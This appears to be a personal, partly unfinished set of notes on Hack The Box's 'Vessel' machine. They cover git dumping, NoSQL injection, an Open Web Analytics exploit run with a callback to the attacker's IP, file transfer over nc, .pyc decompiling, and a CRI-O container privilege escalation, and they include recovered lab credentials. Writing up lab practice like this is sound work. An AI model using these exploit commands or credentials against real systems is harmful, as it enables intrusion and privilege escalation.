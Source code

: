 # Vessel Helped-Through

Name: Vessel
Date:  
Difficulty:  Hard
Goals: 
- Terrible previous week come back with a vengence
Learnt:
Beyond Root:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

vessel.htb

https://github.com/arthaud/git-dumper

Git contains compressed information about a repository including all previous versions.

```bash
git-dumper http://vessel.htb/dev/.git ./dev
```

![](usernameethanhtb.png)

![](passwordfordb.png)

` : daqvACHKvRn84VdVp`

![](returntooldversion.png)

![1080](sqlinjectdisc.png)


## NoSQL Exploit

Type checking problem [Stackhawk](https://www.stackhawk.com/blog/node-js-sql-injection-guide-examples-and-prevention/)

![](nosql1.png)

![](nosql2.png)

![](nosql3.png)


## CVE Exploit 


http://openwebanalytics.vessel.htb/

![](openwebanalyticssearchsploit.png)

https://nvd.nist.gov/vuln/detail/CVE-2022-24637

![](sauceyversion.png)
https://www.exploit-db.com/exploits/51026

```bash
python3 51026.py -u admin -p 'admin' http://openwebanalytics.vessel.htb 10.10.14.102 6969
```

## Foothold

![](foothold.png)



## PrivEsc - through Steven to Ethan

```bash
nc $ip $port -w3 $files
```

https://medium.com/cassandra-cryptoassets/how-to-decompile-compiled-pyc-python-files-50e5f45d1edb
https://github.com/extremecoders-re/pyinstxtractor

![](screenshot.png)


https://github.com/rocky/python-uncompyle6/
https://pypi.org/project/PySide2/
```bash
pip install uncompyle6
pip3 install PySide2
```

![](extrxtthepyc.png)

Python2 
QRand from QtCore 

0-1000

Refering back screenshot.png 

Length is equal to 32

It is also pointed out it for Windows so the qrand

@n4nn4n0 : Did some testing with std::rand(1). Windows and Linux give different values, but clang and gcc are the same.

Windows machine setup incoming... along with completion of [[Sharp-Helped-Through]]

```bash
pdf2john
```

The problem is there is no entropy and same seed will produce the same outcome like minecraft. There are only a thousand

- Use the virtual environment to test code

To read the pdf
```bash
apt install Okular
```

## PrivEsc Ethan to Root

SETUIDs and `owauser : Vux8*ZF3rek94%N` for owa.
![](linpeaspinns.png)
https://fossies.org/linux/cri-o/pinns/src/pinns.c

https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation
Warning: *"This won't always work as the default operation of runc is to run as root, so running it as an unprivileged user simply cannot work (unless you have a rootless configuration). Making a rootless configuration the default isn't generally a good idea because there are quite a few restrictions inside rootless containers that don't apply outside rootless containers"*


Reading about containerss and namespaces:
https://opensource.com/article/19/10/namespaces-and-containers-linux

[https://mkdev.me/posts/the-tool-that-really-runs-your-containers-deep-dive-into-runc-and-oci-specifications](https://mkdev.me/posts/the-tool-that-really-runs-your-containers-deep-dive-into-runc-and-oci-specifications)

Al ran into rootless issues... @paffet suggests: [https://github.com/opencontainers/runc/#rootless-containers](https://github.com/opencontainers/runc/#rootless-containers)

https://www.toptal.com/linux/separation-anxiety-isolating-your-system-with-linux-namespaces


[https://medium.com/@Mark.io/simple-rootless-containers-with-runc-on-centos-redhat-f9230f74b88b](https://medium.com/@Mark.io/simple-rootless-containers-with-runc-on-centos-redhat-f9230f74b88b)

[https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)

DeCruyssen points out: wrong pinns.c
https://github.com/cri-o/cri-o/blob/v1.19.0/pinns/src/pinns.c

Search Engine Dorking 
```
-"docker"
```

https://www.zend.com/blog/rootless-containers
https://opensource.com/article/19/5/shortcomings-rootless-containers

## Beyond Root


